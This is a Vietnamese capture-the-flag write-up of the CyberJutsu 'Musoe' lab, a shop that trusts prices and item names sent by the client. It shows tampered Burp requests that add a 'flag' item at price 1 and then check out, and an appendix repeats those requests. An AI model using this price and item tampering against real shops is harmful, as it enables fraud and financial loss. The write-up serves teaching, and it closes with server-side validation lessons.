# CBJS Lab — Musoe (Buy-the-Flag)  
**Write-up**

> Một chuyến ghé thăm *Musoe* — nơi mọi thứ có thể được mua bán, kể cả những điều kỳ quặc nhất.  
> Chủ đề: lỗi logic cửa hàng (client-trust), tampering request, checkout → mua được flag.

## Table of Contents
- [1. Câu chuyện bắt đầu](#1-câu-chuyện-bắt-đầu)
- [2. Thăm dò ngôi làng (Recon)](#2-thăm-dò-ngôi-làng-recon)
- [3. Cửa hàng bí mật (Analysis)](#3-cửa-hàng-bí-mật-analysis)
- [4. Trò nghịch ngợm (Tampering)](#4-trò-nghịch-ngộm-tampering)
- [5. Thanh toán và nhận kho báu (Exploitation)](#5-thanh-toán-và-nhận-kho-báu-exploitation)
- [6. Kết thúc câu chuyện (Conclusion)](#6-kết-thúc-câu-chuyện-conclusion)
- [Appendix — Requests & Notes](#appendix--requests--notes)

## 1. Câu chuyện bắt đầu

Một đêm lang thang trong thế giới CTF, mình mở bản đồ và thấy một lab tên **Musoe** thuộc hệ thống *CyberJutsu Lab*. Có một hint: **“flag can be bought in the shop.”**  

Ý nghĩ đầu tiên: *Ai lại bán flag công khai?* Nhưng một hint là hint — mình quyết định đi thử.

Mình truy cập:
```
https://musoe.cyberjutsu-lab.tech/
```

Giao diện hiện ra giống một cửa hàng nhỏ: Home, Shop, Cart — nhìn rất bình thường.

## 2. Thăm dò ngôi làng (Recon)

Mình click vào **Shop** và thấy danh sách mặt hàng cùng giá tiền. Không có item tên `flag` trong danh sách.  

Tuy nhiên mình bật **Burp Suite**, chọn Proxy → Intercept, và thử **Add to cart** một món hàng (ví dụ `bread`).

Quan sát request:

```http
POST /cart/add HTTP/1.1
Host: musoe.cyberjutsu-lab.tech
Content-Type: application/json

{
  "item": "bread",
  "price": 5
}
```

Điều đáng chú ý: **giá (price)** được gửi từ client. Server dường như tin dữ liệu client gửi về giá cả.

Trong đầu mình lóe lên một ý: *nếu server chấp nhận giá do client gửi, liệu mình có thể gửi item tùy ý (ví dụ "flag") với giá rẻ không?*

## 3. Cửa hàng bí mật (Analysis)

Trước khi làm liều, mình thử thêm một vài thao tác khảo sát:

- Thêm nhiều item khác nhau, thay giá, xem server trả về gì.
- Tìm xem checkout yêu cầu gì (cookie/session, token, hay chỉ dựa vào cart server-side).
- Dò xem có endpoint `/admin` hay `/items` trả JSON liệt kê items không.

Một vài phát hiện:
- Add-to-cart trả về message `Added <item> to your cart!` khi payload hợp lệ.
- Cart có thể được xem bằng endpoint `/cart` (GET) và trả về nội dung cart hiện tại.
- Checkout endpoint là `/cart/checkout` (POST) — mình chưa thử checkout vì muốn đảm bảo mình bỏ item "flag" vào cart trước.

## 4. Trò nghịch ngợm (Tampering)

Mình quyết định thử payload “mua” item tên `flag`. Sửa body request như sau và gửi bằng Burp Repeater:

```http
POST /cart/add HTTP/1.1
Host: musoe.cyberjutsu-lab.tech
Content-Type: application/json

{
  "item": "flag",
  "price": 1
}
```

Response:
```
Added flag to your cart!
```

Tức thì mình mở `/cart` để kiểm tra nội dung:

```http
GET /cart HTTP/1.1
Host: musoe.cyberjutsu-lab.tech
```

Response:
```json
{
  "cart": [
    {"item": "bread", "price": 5},
    {"item": "flag", "price": 1}
  ],
  "total": 6
}
```
Cart đã có `flag` — rõ ràng server không validate `item`/`price` kỹ lắm.

> Lưu ý: một số lab thiết kế để `flag` không hiện trong shop UI nhưng server chấp nhận item nếu client gửi đúng tên — đó chính là bài học: **không tin tưởng dữ liệu client gửi**.

## 5. Thanh toán và nhận kho báu (Exploitation)

Bước tiếp theo là checkout. Mình gửi request checkout (bằng Burp Repeater):

```http
POST /cart/checkout HTTP/1.1
Host: musoe.cyberjutsu-lab.tech
Content-Type: application/json
Cookie: session=abcdef123456

{}
```

Server trả một response text (hoặc JSON) chứa flag:

```
Congratulations! Here is your prize:
cbjs{y0u_b0ught_th3_flag}
```

Hoặc định dạng khác — nhưng flag đã xuất hiện trực tiếp sau khi checkout thành công.

Mình chụp lại request/response, lưu bằng chứng (screenshot Burp Repeater + `/cart` JSON + flag), và copy flag vào notebook.

## 6. Kết thúc câu chuyện (Conclusion)

Từ một hint “flag mua được ở shop”, mình chỉ cần:
- Tìm các điểm server dựa vào dữ liệu client (price/item).
- Thêm item `flag` bằng tampering request.
- Checkout để nhận flag.

**Bài học rút ra**
- Tuyệt đối **không tin tưởng dữ liệu client gửi** cho các logic tài chính/giao dịch.
- Tất cả giá cả, quyền, status, item-sensitive phải được kiểm tra và xác thực server-side.
- Trong môi trường thật, lỗi này có thể dẫn tới gian lận, mất mát tài chính hoặc rò rỉ dữ liệu nhạy cảm.

## Appendix — Requests & Notes

### Add to cart (tampered)
```http
POST /cart/add HTTP/1.1
Host: musoe.cyberjutsu-lab.tech
Content-Type: application/json

{
  "item": "flag",
  "price": 1
}
```

### View cart
```http
GET /cart HTTP/1.1
Host: musoe.cyberjutsu-lab.tech
Cookie: session=abcdef123456
```

### Checkout
```http
POST /cart/checkout HTTP/1.1
Host: musoe.cyberjutsu-lab.tech
Content-Type: application/json
Cookie: session=abcdef123456

{}
```

### Evidence to include in write-up
- Screenshot Burp Intercept / Repeater của request `POST /cart/add` (trước và sau chỉnh).  
- Screenshot JSON `GET /cart` cho thấy `flag` trong giỏ.  
- Screenshot response `POST /cart/checkout` chứa flag.  
- Ghi chú: không chia sẻ secret/private data trên write-up.
